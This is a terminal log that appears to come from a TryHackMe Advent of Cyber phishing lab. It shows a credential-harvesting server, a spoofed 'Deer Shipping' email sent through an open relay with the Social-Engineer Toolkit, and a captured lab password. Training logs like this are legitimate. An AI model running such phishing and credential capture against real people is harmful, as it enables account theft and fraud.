





~
❯ cd ~/Work/THM/Advent-of-Cyber-2025/Phishing-Merry_Clickmas/day02/
~/Work/THM/Advent-of-Cyber-2025/Phishing-Merry_Clickmas/day02
❯ python server.py
Starting server on http://0.0.0.0:8000
127.0.0.1 - - [22/Sep/2026 15:08:41] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [22/Sep/2026 15:08:41] "GET /favicon.ico HTTP/1.1" 404 -

~
❯ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
inet 127.0.0.1/8 scope host lo
valid_lft forever preferred_lft forever
inet6 ::1/128 scope host noprefixroute
valid_lft forever preferred_lft forever
2: enp61s0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc fq_codel state DOWN group default qlen 1000
link/ether 74:d4:dd:1f:dd:ad brd ff:ff:ff:ff:ff:ff
altname enx74d4dd1fddad
3: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
link/ether c8:5e:a9:d5:bd:30 brd ff:ff:ff:ff:ff:ff
inet 10.222.62.145/24 brd 10.222.62.255 scope global dynamic noprefixroute wlan0
valid_lft 3420sec preferred_lft 3420sec
inet6 2409:40d5:497:6a6d:f6ec:b18f:5f6c:430b/64 scope global dynamic noprefixroute
valid_lft 6938sec preferred_lft 6938sec
inet6 fe80::1dd:5718:75aa:75d6/64 scope link noprefixroute
valid_lft forever preferred_lft forever
4: virbr0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc htb state DOWN group default qlen 1000
link/ether 52:54:00:b3:b2:6c brd ff:ff:ff:ff:ff:ff
inet 192.168.122.1/24 brd 192.168.122.255 scope global virbr0
valid_lft forever preferred_lft forever
6: tun0: <POINTOPOINT,NOARP,UP,LOWER_UP> mtu 1380 qdisc noqueue state UP group default qlen 1000
link/none
inet 192.168.134.202/18 brd 192.168.191.255 scope global tun0
valid_lft forever preferred_lft forever
inet6 fe80::b42c:536e:bf31:7e44/64 scope link stable-privacy proto kernel_ll
valid_lft forever preferred_lft forever

~/Work/THM/Advent-of-Cyber-2025/Phishing-Merry_Clickmas/day02
❯ python server.py
Starting server on http://0.0.0.0:8000
127.0.0.1 - - [22/Sep/2026 15:08:41] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [22/Sep/2026 15:08:41] "GET /favicon.ico HTTP/1.1" 404 -
192.168.134.202 - - [22/Sep/2026 15:23:10] "GET / HTTP/1.1" 200 -
192.168.134.202 - - [22/Sep/2026 15:23:10] "GET /favicon.ico HTTP/1.1" 404 -
~
❯ sudo setoolkit
[sudo] password for user0:
,..-,
,;;f^^"""-._
;;' `-.
;/ `.
|| _______________\_______________________
|| |HHHHHHHHHHPo"~~\"o?HHHHHHHHHHHHHHHHHHH|
|| |HHHHHHHHHP-._ \,'?HHHHHHHHHHHHHHHHHH|
| |HP;""?HH| """ |_.|HHP^^HHHHHHHHHHHH|
| |HHHb. ?H|___..--"| |HP ,dHHHPo'|HHHHH|
`| |HHHHHb.?Hb .--J-dHP,dHHPo'_.rdHHHHH|
\ |HHHi.`;;.H`-./__/-'H_,--'/;rdHHHHHHHHH|
|HHHboo.\ `|"\"/"\" '/\ .'dHHHHHHHHHHHH|
|HHHHHHb`-|. \| \ / \/ dHHHHHHHHHHHHH|
|HHHHHHHHb| \ |\ |\ |`|HHHHHHHHHHHHHH|
|HHHHHHHHHb \| \ | \| |HHHHHHHHHHHHHH|
|HHHHHHHHHHb |\ \| |\|HHHHHHHHHHHHHHH|
|HHHHHHHHHHHb| \ | / dHHHHHHHHHHHHHHH|
|HHHHHHHHHHHHb \/ \/ .fHHHHHHHHHHHHHHH|
|HHHHHHHHHHHHH| /\ /\ |HHHHHHHHHHHHHHHH|
|""""""""""""""""""""""""""""""""""""""|
|,;=====. ,-. =. ,=,,=====. |
||| ' //"\\ \\ // || ' |
||| ,/' `\. `\. ,/' ``=====. |
||| . //"""\\ \\_// . |||
|`;=====' ='' ``= `-' `=====''|
|______________________________________|
[---] The Social-Engineer Toolkit (SET) [---]
[---] Created by: David Kennedy (ReL1K) [---]
Version: 8.0.3
Codename: 'Maverick'
[---] Follow us on Twitter: @TrustedSec [---]
[---] Follow me on Twitter: @HackingDave [---]
[---] Homepage: https://www.trustedsec.com [---]
Welcome to the Social-Engineer Toolkit (SET).
The one stop shop for all of your SE needs.
The Social-Engineer Toolkit is a product of TrustedSec.
Visit: https://www.trustedsec.com
It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!
Can't pickle local object <function show_banner.<locals>.pull_version at 0x7f6b7e9fafb0>
Select from the menu:
10) Third Party Modules
99) Return back to the main menu.
set> 5
Social Engineer Toolkit Mass E-Mailer
There are two options on the mass e-mailer, the first would
be to send an email to one individual person. The second option
will allow you to import a list and send it to as many people as
you want within that list.
What do you want to do:
1. E-Mail Attack Single Email Address
2. E-Mail Attack Mass Mailer
99. Return to main menu.
set:mailer>factory@wareville.thm
1. Use a gmail Account for your email attack.
2. Use your own server or open relay
set:phishing>2
set:phishing> From address (ex: moo@example.com):updates@deershipping.thm
set:phishing> The FROM NAME the user will see:Deer Shipping
set:phishing> Username for open-relay [blank]:
Password for open-relay [blank]:
set:phishing> SMTP email server address (ex. smtp.youremailserveryouown.com):10.49.174.95
set:phishing> Port number for the SMTP server [25]:
set:phishing> Flag this message/s as high priority? [yes|no]:no
Do you want to attach a file - [y/n]: n
Do you want to attach an inline file - [y/n]: n
set:phishing> Email subject:Shipping Schedule Changes
set:phishing> Send the message as html or plain? 'h' or 'p' [p]:
[!] IMPORTANT: When finished, type END (all capital) then hit {return} on a new line.
set:phishing> Enter the body of the message, type END (capitals) when finished:Dear elves,
Next line of the body: Kindly note that there have been significant changes to the shipping schedules due to increased sh
ipping orders.
Next line of the body: Please confirm the new schedule by visiting http://10.222.62.145:8000/
Next line of the body: Best regards,
Next line of the body: FLying Deer
Next line of the body: END
[*] SET has finished sending the emails
Press <return> to continue
~/Work/THM/Advent-of-Cyber-2025/Phishing-Merry_Clickmas/day02
❯ python server.py
Starting server on http://0.0.0.0:8000
127.0.0.1 - - [22/Sep/2026 15:08:41] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [22/Sep/2026 15:08:41] "GET /favicon.ico HTTP/1.1" 404 -
192.168.134.202 - - [22/Sep/2026 15:23:10] "GET / HTTP/1.1" 200 -
192.168.134.202 - - [22/Sep/2026 15:23:10] "GET /favicon.ico HTTP/1.1" 404 -
10.49.174.95 - - [22/Sep/2026 15:24:10] "GET / HTTP/1.1" 200 -
[2026-09-22 15:24:10] Captured -> username: admin password: unranked-wisdom-anthem from: 10.49.174.95
10.49.174.95 - - [22/Sep/2026 15:24:10] "POST /submit HTTP/1.1" 303 -
10.49.174.95 - - [22/Sep/2026 15:24:10] "GET / HTTP/1.1" 200 -


